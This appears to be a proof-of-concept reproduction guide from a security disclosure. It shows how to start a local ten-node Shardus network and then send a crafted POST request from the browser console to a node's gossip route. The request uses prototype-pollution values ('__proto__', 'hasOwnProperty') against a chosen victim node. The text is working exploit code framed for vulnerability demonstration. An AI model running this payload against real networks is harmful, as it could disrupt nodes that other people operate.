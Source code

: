 - Install dependencies and build both repositories.

- Start the network with `shardus start 10`

- Go to the monitor page at http://SERVER_IP:3000/ and wait until the `Cycle Counter` number **15**. By that time all 10 nodes should be active.


## Distributing the malicious payload

By now, all 10 nodes should be active.

- Select any node you want to be the victim

For this example, we'll pick the one running at port 9003.

Visit http://SERVER_IP:4000/nodelist - you will see a list of active nodes and their public keys. Copy the public key of the node running at port 9003.

- Select any node you want to act maliciously. 

For this example, we'll pick the one running at port 9002.

In a new tab visit http://SERVER_IP:9002 (replace *9002* with the port of the node you decide to pick as malicious).

- Prepare the payload.

While still in the tab for the URL http://SERVER_IP:9002 - open the developer console in your browser *(right-click in the blank space of the page, select "Inspect element", then click in the "Console" tab)*.

Paste the following snippet of code in the console. **REPLACE "SERVER_IP" with the IP of the server and REPLACE "PK_OF_VICTIM" with the public key of the victim you selected.**


```
fetch(`http://SERVER_IP:9002/infosec_gossipAnything/?route=remove_timestamp_cache&pk=PK_OF_VICTIM`, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        txId: "hasOwnProperty",
        cycleCounter: "__proto__",
        receipt2: "ok"
    })
}).then(response => {
    if (!response.ok) {
        throw new Error('Network response was not ok');
    }
    return response.json();
}).then(data => {
    console.log('Success:', data);
}).catch(error => {
    console.error('Error:', error);
});
```
Press Enter on your keyboard to execute the code.
